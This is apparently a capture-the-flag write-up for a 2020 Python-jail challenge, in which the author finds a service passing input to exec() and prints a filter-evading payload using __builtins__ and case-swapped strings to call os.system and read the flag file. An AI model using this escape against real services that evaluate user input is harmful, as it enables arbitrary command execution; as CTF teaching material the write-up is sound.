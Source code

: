 # Sector443 CTF 2020: Pwn - Re:zero (150 Points)

## Description:

_I forgot to take a screenshot of the description... woops! xD_ 


Anyways, I remember that the description only provided the name of the file `key.txt` that had the flag, it didn't provide any sort of hint so... Moving on!

## Recon and Analysis:

Connecting to the server given, which was `172.105.53.6 32780`, we get the following cool response. 

```
kali@kali:~/Documents/sector443/re:zero$ nc 172.105.53.6 32780
__        __   _                            _        
\ \      / /__| | ___ ___  _ __ ___   ___  | |_ ___  
 \ \ /\ / / _ \ |/ __/ _ \| '_ ` _ \ / _ \ | __/ _ \ 
  \ V  V /  __/ | (_| (_) | | | | | |  __/ | || (_) |
   \_/\_/ \___|_|\___\___/|_| |_| |_|\___|  \__\___/ 
                                                     
 ____                   _                                   __ 
/ ___|  __ _ _ __   ___| |_ _   _  __ _ _ __ _   _    ___  / _|
\___ \ / _` | '_ \ / __| __| | | |/ _` | '__| | | |  / _ \| |_ 
 ___) | (_| | | | | (__| |_| |_| | (_| | |  | |_| | | (_) |  _|
|____/ \__,_|_| |_|\___|\__|\__,_|\__,_|_|   \__, |  \___/|_|  
                                             |___/             
 _  __                         _     _       _ _ 
| |/ /_ __ ___ _ __ ___   __ _| | __| |_   _| | |
| ' /| '__/ _ \ '_ ` _ \ / _` | |/ _` | | | | | |
| . \| | |  __/ | | | | | (_| | | (_| | |_| |_|_|
|_|\_\_|  \___|_| |_| |_|\__,_|_|\__,_|\__, (_|_)
                                       |___/     

Try breaking my barrier. You'll find a key to save Emilia inside Roswaal's mansion
>>>
```

Trying out random stuff like `!@#$!%^@"` just to get it to crash, when it crashes it spills out an error that contains the directory and the script name which was `main.py`.

Also, `exec(string)` was in the error from the python script. So I tried to read the content of `key.txt` by supplying `'cat key.txt'` (notice the quotes to supply `exec()` a `string`) but the program terminates without giving me anything.

Next thing to do is search on how to escape this statement, to execute arbitrary code on the machine _Muhahaha!_

## Solution

After one google search on "how to escape python jails", I got [this](https://anee.me/escaping-python-jails-849c65cf306e?gi=6a471ceaec7e) article.

Reading it carefully, I tried applying the same technique as the article using `__builtins__` module, and the final payload worked:

```
Try breaking my barrier. You'll find a key to save Emilia inside Roswaal's mansion
>>> __builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('cat key.txt')

S443{y0u_l1k3_@n1m3_r1gh7}
```
